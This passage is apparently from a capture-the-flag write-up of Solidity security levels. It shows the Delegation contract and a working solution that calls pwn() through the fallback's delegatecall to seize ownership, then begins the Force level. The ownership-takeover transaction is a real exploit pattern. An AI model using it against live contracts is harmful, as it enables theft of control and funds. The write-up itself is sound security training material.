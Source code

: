 ```
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

So to solve this challenge, we should remember that in Ethereum, you can invoke a public function by sending data in a transaction. The format is as follows:
contractInstance.call(bytes4(sha3("functionName(inputType)"))

So we need to call the function pwn() which will update the owner. To do that, we can encode it as follows: bytes4(sha3("pwn()")) and put it into the data fields calling the Delegate contract:

```
await sendTransaction({
  from: "our address",
  to: "our instance address",
  data: "0xdd365b8b0000000000000000000000000000000000000000000000000000000000000000"
});
```

To check,``` await contract.owner() ```reveals that you are now the owner!  

## Force

Difficulty 5/10

Some contracts will simply not take your money ¯\_(ツ)_/¯

The goal of this level is to make the balance of the contract greater than zero.

  Things that might help:

Fallback methods
Sometimes the best way to attack a contract is with another contract.
See the Help page above, section "Beyond the console"
In solidity, for a contract to be able to receive ether, the fallback function must be marked payable.
